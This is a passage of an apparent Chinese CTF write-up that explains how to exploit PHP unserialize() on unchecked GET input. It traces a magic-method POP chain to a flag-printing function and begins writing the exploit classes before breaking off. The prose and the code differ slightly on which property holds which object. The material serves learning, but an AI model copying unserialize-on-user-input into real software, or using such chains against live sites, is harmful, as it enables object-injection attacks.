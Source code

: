 ```php
$a = $_GET['string'];
unserialize($a);
?>
```

首先要利用 class GetFlag 中的 get_flag, 所以我们只要有一个 ToStringFunc 类的实例当字符串来使用

InvokeFunc 中使用了字符串拼接可以利用，所以我们只要有一个 InvokeFunc 类的实例，并且 str1 要是 ToStringFunc ，并且这个类要当函数使用

CallFunc 中刚好有一个 `$s1()`; 函数调用，所以我们只要有一个 CallFunc 类的实例，并且 mod1 要是 InvokeFunc，并且要调用一次不存在的函数

Call 中刚好有一个 test2 函数调用，并且不存在，所以我们只要一个 Call 的类的实例，并且 mod1 要是 CallFunc

最后需要一个自动函数调用的方法，刚好 start_gg 有一个析构函数，所以我们只要一个 startgg 类的实例，并且 mod1 要是 call

注意 : protected $ClassObj = new evil(); 是不行的，还是通过 `__construct` 来实例化。

在序列化之前只调用 `__construct` 函数，并且序列化将对象转换成字符串，仅保留对象里的成员变量，不保留函数方法。

所以构造的时候只要记录我们需要的属性+构造函数即可
```php
<?php
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."flag{Test}";
        }
}
class ToStringFunc
{
        public $str1;
        public function __construct()
        {
                $this->str1=new GetFlag();
        }
}
class InvokeFunc
{
        public $mod1;
        public function __construct()
        {
                $this->mod1= new ToStringFunc();

        }
}
class CallFunc
{
        public $mod1;
        public function __construct()
        {
                $this->mod1=new InvokeFunc();
        }
}
class Call
{
        public $mod1;
        public function __construct()
        {
                $this->mod1=new CallFunc();
        }
}
class start_gg
{
        public $mod1;
        public function __construct()
        {
```
